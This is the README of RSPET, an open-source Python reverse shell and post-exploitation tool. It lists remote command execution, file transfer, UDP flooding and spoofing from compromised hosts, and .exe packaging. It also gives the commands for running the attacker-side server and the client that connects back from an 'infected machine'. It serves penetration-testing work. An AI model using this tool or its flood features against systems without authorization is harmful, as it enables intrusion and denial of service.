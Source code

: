 # RSPET

![MIT Licence](https://img.shields.io/badge/Licence-MIT_Licence-red.svg?style=plastic)
[![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg?style=plastic)](https://www.python.org/)
![v0.3.0](https://img.shields.io/badge/Release-v0.3.0-orange.svg?style=plastic)
![Maintained](https://img.shields.io/badge/Maintained-Yes-green.svg?style=plastic)
[![Twitter](https://img.shields.io/badge/Twitter-@TheRSPET-blue.svg?style=plastic)](https://twitter.com/theRSPET)

> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational and PenTesting purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE: `min` folder has been removed. The added overhead of maintaining two versions lead to `min` not receiving bug-fixes and important updates. If there is interest, both in using and maintaining, a more bare-bone and simplistic version, a new branch will be created to host it.

Current Version: `v0.3.0`

Follow: [@TheRSPET](https://twitter.com/TheRSPET) on Twitter for updates.

Documentation : [rspet.readthedocs.io](http://rspet.readthedocs.io)

## Features

* Remote Command Execution
* ~~Trafic masking (XORed instead of cleartext); for better results use port 443~~[1]
* TLS Encryption of the Server-Client communication
* Built-in File/Binary transfer (both ways) over the ~~masked~~ Encrypted traffic
* Built-in UDP Flooding tool
* Built-in UDP Spoofing tool[2]
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Modular Code Design to allow easy customization
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[3]
* Full server side plug-in support[4]
* RESTful API for the Server Module

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]UDP Spoofing uses RAW_SOCKETS so in order to utilize it, the client has to run on an OS that supports RAW_SOCKETS (most Unix-Based) and with root privilages. Finally, most of the ISPs have implementations in place that will either drop or re-structure spoofed packets

*[3]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

*[4]Detailed documentation on creating plugins available in [Online Documentation](http://rspet.readthedocs.io/en/latest/dev/)!

## Deployment:

* `rspet_server.py` is situated at the attacker's machine and running to accept connections
* `rspet_client.py` is situated in the infected machine(s) and will initiate the connection and wait for input.

## Execution:

* Server:
```sh
python rspet_server.py (max_connections)
```
max_connections defaults to 5 if left blank

* RESTful API:
  * Install Flask with pip (only the first time)

    ```sh
    pip2 install Flask flask-cors
    ```
  * Start the API

    ```sh
    python rspet_server_api.py
    ```

* Client:
```sh
python rspet_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## ASCIICAST

[![asciicast](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno.png)](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno?autoplay=1)

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in

* [seclist.us](http://seclist.us/rspet-reverse-shell-and-post-exploitation-tool.html)
* [sillycon.org](http://www.sillycon.org/stories/article/github-panagiksrspet-rspet-reverse-shell-and-post-exploitation-tool-is-a-python-based-reverse-shell-equipped-with-functionalities-that-assist-in-a-post-exploitation-scenario)
* [digitalmunition.me](https://www.digitalmunition.me/2016/04/rspet-reverse-shell-post-exploitation-tool/)
* [n0where.net](https://n0where.net/reverse-shell-post-exploitation-tool/)
* [kitploit.com](http://www.kitploit.com/2016/05/rspet-python-reverse-shell-and-post.html)
* [Hakin9 IT Security Magazine](https://www.facebook.com/hakin9mag/posts/1376368245710855)

## Todo

- [x] ~~Fix logic bug where if a direct command to Host OS has no output Server displays command not recognized~~
- [ ] Fix logic bug where if a direct command's to Host OS execution is perpetual the Server deadlocks
- [x] ~~Add client version and type (min or full) as a property when client connects and at `List_Hosts`~~
- [ ] Replace XORing with private key encryption (with random private key generated and traded upon connection)
 - [ ] Must find a way that does not require any extra installation on the client
 - [ ] Add a NoSQL (at least server-side) to store and handle traded keys
 - [ ] Add public key encryption in order to:
   - [ ] Encrypt the exchange of the private key
    - [ ] Verify the "authenticity" of clients
- [ ] Add client update mechanism (initial thought was the use of execv but it acts up)
- [ ] Add a plugin system to client (a more compact one)
 - [ ] Add remote installation of plugins to client
 - [ ] Add installed plugins report from client to server
- [ ] Add UDP Reflection functionality
- [ ] Provide more settings via config file
- [ ] Re-introduce multythreading when handling multiple hosts.
- [ ] Make commands available with 'Tab' automatically generated based on loaded plugins.
- [x] ~~Fix logical bug when deleting a client. (Client still shows up on List_Hosts)~~
- [x] ~~Create comprehensive plug-in creation guide.~~

## Styleguide

This project is following [Google's Python Styleguide](https://google.github.io/styleguide/pyguide.html) with a minor variation on the use of whitespaces to align ":" tokens.

## Contribution Opportunities

This project is open for contributors. If you have implemented a new feature, or maybe an improvement to the current code feel free to open a pull request. If you want to suggest a new feature open an issue. Additionally Testers are needed to run a few standard scenarios (and a few of their own maybe) to decrease the chance a bug slips into a new version. Should there be any interest about testing a `beta` branch will be created (where code to be tested will be uploaded) along with a list of scenarios. For a full guide on contribution opportunities and guides check out [the "Contributing" chapter on RSPET's Online Documentation](http://rspet.readthedocs.io/en/latest/contribute/)

## Author - Project Owner/Manager

[panagiks](https://twitter.com/panagiks)

## Co-Author

[dzervas](https://dzervas.gr) -- Code (Server OO-redesign, Server Plug-in system implementation, bug reports, bug fixes)

## Contributors

* [b3mb4m](https://github.com/b3mb4m) -- Code (tab.py and bug fixes)
* [junzy](https://github.com/junzy) -- Docstings (udp_spoof & udp_spoof_send)
* [gxskar](https://github.com/gxskar) -- Documentation (ASCIICAST of RSPET's basic execution)
* [n1zzo](https://github.com/n1zzo) -- Bug Report & Fix (PR [#31](https://github.com/panagiks/RSPET/pull/31))

## License

MIT
